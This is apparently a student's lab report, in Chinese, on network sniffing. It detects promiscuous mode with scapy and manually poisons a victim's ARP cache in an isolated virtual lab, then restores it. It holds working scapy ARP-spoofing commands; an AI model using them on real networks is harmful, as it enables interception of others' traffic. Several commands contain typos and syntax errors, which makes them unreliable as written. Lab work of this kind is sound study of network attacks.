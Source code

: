 # 网络监听实验

## 网络拓扑

### 网络拓扑

![topology](img/topology.png)

### 节点信息

- 网关（Debian-gw）
  - MAC地址：08:00:27:ff:b8:28  /enp0s9
  - IP地址：172.16.111.1
- 攻击者（attacker-kali）
  - MAC地址：08:00:27:0e:95:b9
  - IP地址：172.16.111.141
- 受害者（victim-kali-1）
  - MAC地址：08:00:27:c5:c0:21 /eth0
  - IP地址：172.16.111.130

## 实验准备

### 安装scapy

```bash
# 安装 python3
sudo apt update
sudo apt install python3 python3-pip
# 安装scrapy
pip3 install scrapy[complete]
```

![scapy_install](img/scapy_install.png)

## 实验过程

### 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的混杂模式是否启用
ip link show eth0
```

![ip_link _show](img/ip_link _show.png)

```bash
# 在攻击者主机开启scapy 
scapy
# 直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题
# 重新尝试使用以下口令开启scapy
sudo scrpy
```

![start_scapy](img/start_scapy.png)

```bash
# 在scapy终端输入以下代码回车执行
pkt = promiscping("172.16.111.130")
```

![scapy_pkt](img/scapy_pkt.png)

```bash
# 回到受害者主机开启网卡的混杂模式
# 注意!上述输出结果应该没有PROMISC 字符串
# 手动开启该网卡混杂模式
sudo ip link set eth0 promisc on
# 此时的输出结果会多出来 PROMISC
ip link show eth0
```

![set_promisc](img/set_promisc.png)

![ip_link_show_promisc](img/ip_link_show_promisc.png)

```bash
# 回到攻击者主机的scapy交互式终端继续执行命令
# 观察两次输出结果的不同
pkt = promiscping("172.16.111.130")
```

![pkt_difference](img/pkt_difference.png)

受害者主机没有开启混杂模式时，用scapy的promiscping进行检测，可以看到有一个packet被记录下来，但是没有IP与MAC信息

在受害者主机开启混杂模式后，进行相同的检测可以看到相应的MAC地址与IP信息

promiscping命令：

- 混杂模式：接受所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
- 普通模式：网卡只接受发给本机的包

```bash
# 在受害者主机，手动关闭网卡的混杂模式
sudo ip link set promisc off
```

![set_promisc_off](img/set_promisc_off.png)

### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码均在攻击者主机 scapy 终端完成

```bash
# 获取当前局域网的网关MAC地址
# 构造一个ARP请求
arpboradcast = Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 0,pdst= ="172.16.111.1")

#查看构造好的ARP报文请求
arpboradcast.show()
```

![arpbroadcast](img/arpbroadcast.png)

```bash
# 伪造一个网关的ARP响应包
# 攻击者主机准备发给受害者主机 IP：172.16.111.130
# ARP响应的目的MAC地址设置为攻击者主机的MAC地址 08:00:27:0e:95:b9
arpspoofed = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.130",hwdst="08:00:27:0e:95:b9")

# 发送上述伪造的ARP响应数据包
sendp(arpspoofed)
```

![arpspoofed](img/arpspoofed.png)

此时，在受害者主机上查看ARP缓存，网关的MAC地址已被替换为攻击者主机的MAC地址

```bash
ip neigh
```

![replace_mac](img/replace_mac.png)

继续回到攻击者主机scapy终端

```bash
# 回复受害者主机的ARP缓存记录
## 伪装网关给受害者发送ARP响应
restoreptk1 = Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:ff:b8:28",pdst="172.16.111.130",hwdst"08:00:27:c5:c0:21")
sendp(restorepkt1,count=100,inter=0.2)

## (选做)
restorepkt2 = Ether()/ARP(op=2,pdst="172.16.111.1",hwdst="08:00:27:ff:b8:28",psrc="172.16.111.130",hwsrc="08:00:27:c5:c0:21")
```

![restoreptk](img/restoreptk.png)

此时，到受害者主机上准备刷新网关ARP记录

```bash
# 在受害者主机上尝试ping网关
ping 172.16.111.1
# 等ARP缓存刷新成功，退出ping
# 查看受害者主机上ARP缓存，已恢复正常网关ARP记录
ip neigh
```

![recover_gw](img/recover_gw.png)

## 实验中遇到的问题及解决方案

1.参考了之前师哥师姐的作业

2.在给kali-attacker开启内部网络intnet1网卡后查看其ip地址表，内部网络对应的网卡仍然没有分配ip地址

解决方法:

```
sudo vim /etc/network/interfaces
```

3.问题3：伪造的网关ARP相应包发不出去

解决方法： 在构造ARP相应包时添加数据链路层Ether()

以上两条参考了同学成功的经验

4.直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题，重新尝试使用以下口令开启scapy：sudo scrpy

## 参考资料

师哥/师姐作业：

https://github.com/CUCCS/2021-ns-public-Dot1029/tree/chap0x04/chap0x04

[网络安全电子教材]([实验 · 网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html))

[kali-linux配置nat模式连接网络_Ahuuua的博客-CSDN博客_kalinat模式怎么联网](https://blog.csdn.net/Ahuuua/article/details/108575907)
